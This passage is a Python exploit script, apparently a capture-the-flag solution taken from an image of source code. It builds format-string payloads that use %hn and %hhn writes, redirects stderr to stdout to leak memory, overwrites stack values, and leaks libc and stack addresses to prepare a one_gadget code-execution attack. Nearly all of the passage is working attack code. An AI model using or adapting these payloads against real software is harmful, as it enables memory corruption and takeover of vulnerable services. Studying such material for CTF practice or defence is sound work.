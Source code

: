 ```python
	if val == 0:
		return "%" + str(pos) + "$hhn"
	else:
		return "%" + str(val) + "c%" + str(pos) + "$hhn"

def hn(pos, val):
	assert val < 0x10000
	if val == 0:
		return "%" + str(pos) + "$hn"
	else:
		return "%" + str(val) + "c%" + str(pos) + "$hn"

def once(payload):
	sh.send(payload + "\n")
	slp()
	return sh.recv(timeout=0.1)

def stack_hn(rel_pos, val):
	once(hhn(9, rel_pos))
	once(hn(11, val))

def write_addr(rel_pos, val):
	stack_hn(rel_pos, val & 0xffff)
	stack_hn(rel_pos + 2, (val >> 0x10) & 0xffff)
	stack_hn(rel_pos + 4, (val >> 0x20) & 0xffff)

def cont_shoot(poses, vals, extra):
	assert len(poses) == len(vals)
	size = len(poses)
	ret = ""
	i = 0
	cur_size = 0
	next_overflow = 0
	while i < size:
		assert next_overflow >= cur_size
		num = next_overflow - cur_size + vals[i]
		if num < 0x10000:
			ret += hn(poses[i], num)
			next_overflow += 0x10000
		else:
			num = vals[i] - (cur_size - (next_overflow - 0x10000))
			assert num >= 0
			ret += hn(poses[i], num)
		cur_size += num
		i += 1
	return ret

sh.recvuntil("Please tell me about yourself. I must talk about you to our mayor.\n")

once(hhn(9, GUESSED_STDERR_POS))
once(hhn(11, (e.symbols["_IO_2_1_stderr_"] & 0xff) + 0x70))
once(hhn(6, 1))
# now stderr is already stdout, u can leak everything

if once("test") != "test\n":
	quit(1)

write_addr(GUESSED_NEEDNULL_POS, 0)
#for 0x30 one_gadget

stack_addr = int(once("%9$lx"), 16)
libc_addr = int(once("%8$lx"), 16) - e.symbols["_IO_2_1_stderr_"]
print hex(libc_addr)
```